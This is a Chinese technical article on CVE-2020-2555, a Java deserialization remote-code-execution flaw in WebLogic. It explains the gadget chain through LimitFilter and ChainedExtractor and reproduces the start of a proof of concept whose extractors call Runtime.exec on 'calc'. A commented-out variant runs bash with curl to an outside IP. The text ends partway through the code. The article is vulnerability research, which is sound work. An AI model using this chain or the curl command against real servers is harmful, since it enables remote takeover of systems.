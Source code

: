 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/r_773o_sk8YLKN1ejegugQ)

![](https://mmbiz.qpic.cn/mmbiz_jpg/Ok4fxxCpBb5j6w7dyB0jP2XHgVRs21xf7eiaxtpK6Y6q8OVAJt7Xp8TkUNAfkM647xlwo5A9j15ZawBMSibPh1yw/640?wx_fmt=jpeg)

**原理**

### **（一）概述**

不安全的反序列化漏洞已成为针对 Java Web 应用程序的研究者的普遍目标。这些漏洞通常会导致 RCE，并且通常不容易彻完全修补。CVE-2020-2555 就属于这一类。

针对 CVE-2015-4852 的补丁的绕过有两种大思路，一是寻找新的可以实现任意代码执行的类，二是换可触发利用链的反序列化点（包括换接收输入的点和换到包装类的内部）。之前的绕过基本上都是第二种，这里主要是第一种，在选择的类上直接另立门户。

### **（二）CVE-2020-2555**

CVE-2020-2555 也是反序列化漏洞，其内部的原理不很是很复杂，却非常值得学习。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5j6w7dyB0jP2XHgVRs21xfvwf07Edlwfts1oXYmjFAb9zR1iciczAva1ZncCFApiaAgoBajHdNXGVvA/640?wx_fmt=png)

前面讲过一个故事，现在接着往下编。那个小孩子觉得药都不好吃，于是闹着不想吃药（有了新补丁），医生干脆放弃吃药（找不到新的包装类了），转为输液治疗（CVE-2017-3248），但是小孩子觉得输液会疼，又不想输液，于是医生找了一种甜的药（CVE-2020-2555），用来治病（getshell）。

### **（三）原理**

1. 原理

清水川崎原文链接（点击 “阅读原文” 查看链接）

ReflectionExtractor 内有 method.invoke()，可以用于执行任意方法，

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5j6w7dyB0jP2XHgVRs21xfmag9w5wD0lGYRsovTMBGk9SGdUUHJpRVLo8kp2oBZMMVsqBtCYluOg/640?wx_fmt=png)

通过构造链式的 ChainedExtractor 就可以实现任意代码执行。LimitFilter 中的 toString() 方法会调用 m_extractor 的 extract()，而 BadAttributeValueExpException 的 readObject() 中可以调用其成员变量的 toString()。

由此一来，我们可以构造 BadAttributeValueExpException 的 val 为 LimitFilter 对象，这个对象的 m_extractor 为内部成链的 chainedExtractor，和上面一段的描述逆序执行，最终触发 RCE。

2. 工具分析

这里用 Y4er 师傅的 PoC，将 CVE_2020_2555.java 添加到 weblogic_cmd 中。

Y4er 师傅 PoC 链接（点击 “阅读原文” 查看链接）

择要展示一下代码。

先是按顺序构造 ChainedExtractor，

```
// Runtime.class.getRuntime()
ReflectionExtractor extractor1 = new ReflectionExtractor(
        "getMethod",
        new Object[]{"getRuntime", new Class[0]}
);

// get invoke() to execute exec()
ReflectionExtractor extractor2 = new ReflectionExtractor(
        "invoke",
        new Object[]{null, new Object[0]}
);

// invoke("exec","calc")
ReflectionExtractor extractor3 = new ReflectionExtractor(
        "exec",
        new Object[]{new String[]{"calc"}}
        //new Object[]{new String[]{"/bin/bash", "-c", "curl http://172.16.1.1/success"}}
);

ReflectionExtractor[] extractors = {
```